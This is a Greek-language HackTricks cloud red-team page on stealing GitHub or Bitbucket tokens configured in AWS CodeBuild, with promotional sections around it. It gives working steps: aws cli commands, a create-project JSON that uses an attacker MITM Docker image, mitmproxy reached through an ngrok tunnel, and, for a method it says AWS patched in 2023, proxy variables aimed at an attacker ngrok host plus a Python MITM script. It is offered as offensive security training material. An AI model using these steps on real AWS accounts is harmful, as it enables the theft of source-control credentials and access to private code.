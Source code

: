 # AWS Codebuild - Διαρροή Διαπιστευτηρίων Τεκμηρίωσης

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Ανάκτηση Διαμορφωμένων Διαπιστευτηρίων Github/Bitbucket

Πρώτα, ελέγξτε εάν υπάρχουν διαμορφωμένα διαπιστευτήρια πηγής που μπορείτε να διαρρεύσετε:
```bash
aws codebuild list-source-credentials
```
### Μέσω Docker Image

Εάν διαπιστώσετε ότι η πιστοποίηση για παράδειγμα στο Github έχει οριστεί στο λογαριασμό, μπορείτε να **διαρρεύσετε** αυτήν την **πρόσβαση** (**GH token ή OAuth token**) κάνοντας το Codebuild να **χρησιμοποιήσει ένα συγκεκριμένο docker image** για να εκτελέσει την κατασκευή του έργου.

Για αυτόν τον σκοπό μπορείτε να **δημιουργήσετε ένα νέο έργο Codebuild** ή να αλλάξετε το **περιβάλλον** ενός υπάρχοντος για να ορίσετε την **εικόνα Docker**.

Η εικόνα Docker που μπορείτε να χρησιμοποιήσετε είναι [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Αυτή είναι μια πολύ βασική εικόνα Docker που θα ορίσει τις μεταβλητές περιβάλλοντος `https_proxy`, `http_proxy` και `SSL_CERT_FILE`. Αυτό θα σας επιτρέψει να παρεμβάλετε την πλειονότητα της κίνησης του κεντρικού υπολογιστή που υποδεικνύεται στις μεταβλητές `https_proxy` και `http_proxy` και να εμπιστευτείτε το πιστοποιητικό SSL που υποδεικνύεται στη μεταβλητή `SSL_CERT_FILE`.

1. **Δημιουργία και μεταφόρτωση της δικής σας εικόνας Docker MitM**
* Ακολουθήστε τις οδηγίες του αποθετηρίου για να ορίσετε τη διεύθυνση IP του διακομιστή μεσολάβησης και να ορίσετε το πιστοποιητικό SSL σας και να **κατασκευάσετε την εικόνα docker**.
* **ΜΗΝ ΟΡΙΣΕΤΕ `http_proxy`** για να μην παρεμβάλλετε αιτήσεις προς το τέλος μεταδεδομένων.
* Μπορείτε να χρησιμοποιήσετε το **`ngrok`** όπως `ngrok tcp 4444` για να ορίσετε τον διακομιστή μεσολάβησης στον υπολογιστή σας.
* Αφού κατασκευάσετε την εικόνα Docker, **ανεβάστε την σε ένα δημόσιο αποθετήριο** (Dockerhub, ECR...)
2. **Ορισμός του περιβάλλοντος**
* Δημιουργήστε ένα **νέο έργο Codebuild** ή **τροποποιήστε** το περιβάλλον ενός υπάρχοντος.
* Ορίστε το έργο να χρησιμοποιεί την **προηγουμένως δημιουργημένη εικόνα Docker**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Ορισμός του διακομιστή μεσολάβησης MitM στον υπολογιστή σας**

* Όπως υποδεικνύεται στο **αποθετήριο Github**, μπορείτε να χρησιμοποιήσετε κάτι όπως:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Η έκδοση του **mitmproxy που χρησιμοποιήθηκε ήταν η 9.0.1**, αναφέρεται ότι με την έκδοση 10 αυτό μπορεί να μην λειτουργεί.
{% endhint %}

4. **Εκτέλεση της δημιουργίας και καταγραφή των διαπιστευτηρίων**

*   Μπορείτε να δείτε το διακριτικό στην κεφαλίδα **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Αυτό μπορεί επίσης να γίνει από το aws cli με κάτι παρόμοιο:

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Μέσω πρωτοκόλλου HTTP~~

{% hint style="success" %}
**Αυτή η ευπάθεια διορθώθηκε από την AWS κάποια στιγμή την εβδομάδα της 20ης Φεβρουαρίου του 2023 (νομίζω την Παρασκευή). Έτσι, ένας επιτιθέμενος δεν μπορεί πλέον να την καταχραστεί :)**
{% endhint %}

Ένας επιτιθέμενος με **αυξημένα δικαιώματα σε ένα CodeBuild** μπορεί να διαρρεύσει το **token του Github/Bitbucket** που έχει ρυθμιστεί ή, αν οι άδειες πρόσβασης έχουν ρυθμιστεί μέσω OAuth, το **προσωρινό OAuth token που χρησιμοποιείται για την πρόσβαση στον κώδικα**.

* Ένας επιτιθέμενος μπορεί να προσθέσει τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** στο έργο CodeBuild που δείχνουν στον υπολογιστή του (για παράδειγμα `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Στη συνέχεια, αλλάξτε το URL του αποθετηρίου github ώστε να χρησιμοποιεί HTTP αντί για HTTPS, για παράδειγμα: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από το [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στη θύρα που δείχνουν οι μεταβλητές του διακομιστή (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Κατασκευή του έργου**, οι **πιστοποιήσεις** θα αποσταλούν σε καθαρό κείμενο (base64) στη θύρα mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Τώρα ένας επιτιθέμενος θα μπορεί να χρησιμοποιήσει το διακριτικό από τον υπολογιστή του, να καταγράψει όλα τα προνόμια που έχει και να τα καταχραστεί ευκολότερα από τη χρήση της υπηρεσίας CodeBuild απευθείας.
{% endhint %}

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
